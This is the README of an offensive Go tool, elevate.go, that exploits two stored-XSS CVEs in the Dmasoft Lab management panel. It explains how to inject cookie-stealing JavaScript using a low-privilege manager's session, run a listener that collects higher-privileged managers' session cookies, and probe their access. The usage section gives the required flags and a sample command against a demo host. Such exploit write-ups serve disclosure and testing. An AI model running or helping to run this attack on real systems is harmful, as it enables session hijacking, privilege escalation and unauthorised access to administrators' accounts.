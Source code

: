 # Readme

`elevate.go` is a file that exploits CVE-2021-29011 and CVE-2021-29012 by injecting Javascript into the dmasoftlab management panel that will steal session cookies.

The attack scenario is:

1. We compromise a low-level manager account on Dmasoft lab's web interface
2. We inject Javascript into an area this low-level manager account has access to
3. A higher privilege manager account visits the area we injected our Javascript
4. Their session cookie is sent to our website and we check their privileges

All of this is automated with `elevate.go`. You simply need to provide the session cookie of a low level user. It will inject the Javascript into the multiple pages that are vulnerable to XSS (and that our low level user can access), and then start a web server, waiting for someone to access any of the compromised webpages and have their session cookie sent to our web server.

Once our web server receives a session cookie, it is checked against various URIs in order to determine what the victim can access. This information is displayed to the operator of the exploit.

# Usage

`elevate.go` has 3 mandatory flags:

1. `-s` - the session cookie of the low-level manager account. You can login to your manager account and view the network requests via your browser's network monitor to obtain this. It would be under the cookie tab. Only grab the 26-character session cookie and nothing else.
2. `-u` - the base URL of the dmasoftlab web interface
3. `-ip` - your local IP address, this is used when creating the Javascript payload, so we know where to send stolen session cookies. Don't worry, the creation and handling of the web server is handled in `elevate.go` already.

An example:

* `go run elevate.go -s t6l83blor6m42unvg4vh70d9v6 -ip 192.168.1.254 -u http://radmandemo.dmasoftlab.com`
* `go run elevate.go -s <session-cookie> -ip <local-ip-address> -u <target-url>`

Example output after a session cookie is stolen:

![](/imgs/img1.png)
